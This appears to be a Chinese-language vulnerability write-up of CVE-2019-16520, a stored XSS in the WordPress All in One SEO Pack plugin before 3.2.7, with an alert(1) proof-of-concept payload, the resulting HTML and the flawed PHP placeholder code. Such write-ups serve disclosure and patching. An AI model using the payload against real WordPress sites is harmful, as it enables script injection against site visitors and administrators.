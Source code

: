 # CVE-2019-16520 WordPress Plugin - All in One SEO Pack 储存型xss

### 一、漏洞简介

适用于WordPress的3.2.7之前的“all-in-one-seo-pack plugin”插件（aka All in One SEO Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

### 二、漏洞影响

wordpress <= 3.2.6

### 三、复现过程

1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：


```shell
Title: test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a
Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description%
```

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码


```html
<title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

<!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->
<meta name="description"  content="test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>"';<script src='data:text/javascript,alert(1)'></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" />
```

2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在 aioseop_class.php第4546-4548行中找到：


```php
if ( false !== strpos( $description, '%post_title%', 0 ) ) {
    $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
}
```

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和JavaScript。